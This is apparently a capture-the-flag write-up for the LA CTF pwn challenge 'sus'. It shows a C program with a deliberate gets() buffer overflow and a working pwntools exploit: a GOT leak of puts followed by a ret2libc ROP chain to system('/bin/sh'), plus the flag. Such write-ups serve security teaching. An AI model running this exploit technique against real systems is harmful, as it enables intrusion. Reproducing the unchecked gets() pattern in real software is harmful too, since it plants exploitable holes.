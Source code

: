 # sus
![challenge](challenge.png)
### Challenge:
##### sus
##### Files: [sus.c](sus.c), [sus](sus)

### Solution:
We are given what seems to be a pretty empty source file:

```c
#include <stdio.h>

void sus(long s) {}

int main(void) {
  setbuf(stdout, NULL);
  long u = 69;
  puts("sus?");
  char buf[42];
  gets(buf);
  sus(u);
}
```

We have a bof and no canaries/pie to worry about, however there doesn't seem to be any useful gadgets we can use to rop.
If we open the binary in ghidra and analyze the sus function we can find something pretty interesting:

```asm
PUSH       RBP
MOV        RBP,RSP
MOV        qword ptr [RBP + local_10],RDI
NOP
POP        RBP
RET
```

This is essentially a gadget to set RDI to a value of our choosing, as we can control the stack.
Knowing this our strategy becomes: 

```Set rdi to a function got -> call puts -> libc leak -> restart binary -> ret2libc```

```py
    r = conn()

    payload = b"A"*8*7 + p64(exe.got.puts) + b"A"*8 + p64(exe.plt.puts) + p64(exe.sym.main)

    r.sendline(payload)

    r.recvuntil(b"sus?\n")
    leak = u64(r.recvline()[:-1].ljust(8,b"\x00"))

    libc.address = leak - libc.sym.puts

    rop = ROP(libc)

    POP_RDI = p64(rop.rdi.address)
    POP_RSI = p64(rop.rsi.address)
    POP_RDX = p64(rop.rdx.address)
    RET = p64(rop.ret.address)

    payload = POP_RDI + p64(libc.binsh()) + POP_RSI + p64(0) + POP_RDX + p64(0) + RET + p64(libc.sym.system)

    r.sendline(b"A"*8*9 + payload)

    r.interactive()
    #lactf{amongsus_aek7d2hqhgj29v21}
```

Solve script: [solve.py](solve.py)

Flag: ```lactf{amongsus_aek7d2hqhgj29v21}```